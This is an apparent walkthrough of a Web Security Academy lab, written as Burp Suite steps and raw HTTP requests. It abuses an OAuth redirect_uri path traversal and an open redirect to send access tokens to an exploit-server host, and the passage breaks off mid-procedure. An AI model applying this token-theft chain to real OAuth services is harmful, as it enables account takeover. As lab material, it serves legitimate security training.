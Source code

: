 ```bash

GET /auth?client_id=myts2a6dlxi262p7ws0up&redirect_uri=https://ac441fcc1ef29a53c0c45aec00bd0048.web-security-academy.net/oauth-callback/../&response_type=token&nonce=-1481991640&scope=openid%20profile%20email HTTP/1.1

Response:

HTTP/1.1 302 Found

Intercept is on
Re-log
Forward until:

GET /auth?client_id=myts2a6dlxi262p7ws0up&redirect_uri=https://ac441fcc1ef29a53c0c45aec00bd0048.web-security-academy.net/oauth-callback&response_type=token&nonce=1198421054&scope=openid%20profile%20email HTTP/1.1

Change to:

GET /auth?client_id=myts2a6dlxi262p7ws0up&redirect_uri=https://ac441fcc1ef29a53c0c45aec00bd0048.web-security-academy.net/oauth-callback/../post?postId=5&response_type=token&nonce=1198421054&scope=openid%20profile%20email HTTP/1.1

Response:

https://ac441fcc1ef29a53c0c45aec00bd0048.web-security-academy.net/post?postId=5#access_token=T-wLruDR718cIua_I252b_SXqnJja8oeQd3xfC9zvNi&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email

Intercept is on
Scroll to bottom
Click "Next post"
Find:

GET /post/next?path=/post?postId=6 HTTP/1.1

Send to repeater
Intercept is off
Go to: Repeater
Change:

GET /post/next?path=/post?postId=6 HTTP/1.1

To

GET /post/next?path=https://exploit-ac891f3e1e1a9a26c0525aa101190082.web-security-academy.net/exploit HTTP/1.1

Send
Right-click response -> Show response in browser -> Copy
Go to:

http://burpsuite/show/2/aaesx0c7dntm5y11s55f5qw1opu6ed2k

Response:

"Hello world!"

Intercept is on
Click "My account"
Find:

```